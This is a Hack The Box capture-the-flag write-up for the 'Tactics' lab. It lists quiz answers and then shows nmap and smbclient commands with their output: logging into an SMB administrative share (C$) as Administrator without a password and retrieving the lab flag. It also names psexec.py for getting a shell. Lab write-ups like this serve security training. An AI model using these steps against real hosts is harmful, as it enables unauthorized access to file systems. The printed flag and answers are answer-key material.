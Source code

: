 # Tactics
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Tactics
* Topic: SMB
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. Which Nmap switch can we use to enumerate machines when our packets are otherwise blocked by the Windows firewall? 
 - **-Pn**
2. What does the 3-letter acronym SMB stand for? 
- **server message block**
3. What port does SMB use to operate at? 
- **445**
4. What command line argument do you give to `smbclient` to list available shares? 
- **-L**
5. What character at the end of a share name indicates it's an administrative share? 
- **$**
6. Which Administrative share is accessible on the box that allows users to view the whole file system? 
- **C$**
7. What command can we use to download the files we find on the SMB Share?
- **get**
8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system? 
- **PSexec.py**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV -Pn 10.129.77.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-17 09:56 EDT
Nmap scan report for 10.129.77.1
Host is up (0.066s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-17T13:56:59
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 59.12 seconds
```

It's running SMB on port 445. We can use `smbclient` to list the shares. If the Administrator user on the host is configured without a password, we should be able to log on without any problems.

Command:

`smbclient -L 10.129.229.124 -U Administrator`

`-L`: List the shars on host.

`-U`: Log on as user, in this case Administrator.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.77.1 -U Administrator 
Enter WORKGROUP\Administrator's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.77.1 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

If we connect to `C$` we can get access to the file sysem on the host.

 `smblient \\\\10.129.229.124\\C$ -U Administrator`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.77.1\\C$ -U Administrator
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Apr 21 11:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 14:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 11:17:12 2021
  pagefile.sys                      AHS 738197504  Sun Apr 17 09:51:08 2022
  PerfLogs                            D        0  Sat Sep 15 03:19:00 2018
  Program Files                      DR        0  Wed Jul  7 14:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 14:03:38 2021
  ProgramData                        DH        0  Wed Apr 21 11:31:48 2021
  Recovery                         DHSn        0  Wed Apr 21 11:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 11:34:04 2021
  Users                              DR        0  Wed Apr 21 11:23:18 2021
  Windows                             D        0  Wed Jul  7 14:05:23 2021

                3774463 blocks of size 4096. 1158911 blocks available
```

Let's get the flag.

```console
smb: \> cd Users\Administrator\Desktop\
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Apr 22 03:16:03 2021
  ..                                 DR        0  Thu Apr 22 03:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 11:23:32 2021
  flag.txt                            A       32  Fri Apr 23 05:39:00 2021

                3774463 blocks of size 4096. 1158895 blocks available
smb: \Users\Administrator\Desktop\> get flag.txt
getting file \Users\Administrator\Desktop\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Users\Administrator\Desktop\> exit
       
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt             
f751c19eda8f61ce81827e6930a1f40c
```

**Flag:** `f751c19eda8f61ce81827e6930a1f40c`

---
**Tags:** [[Hack The Box]]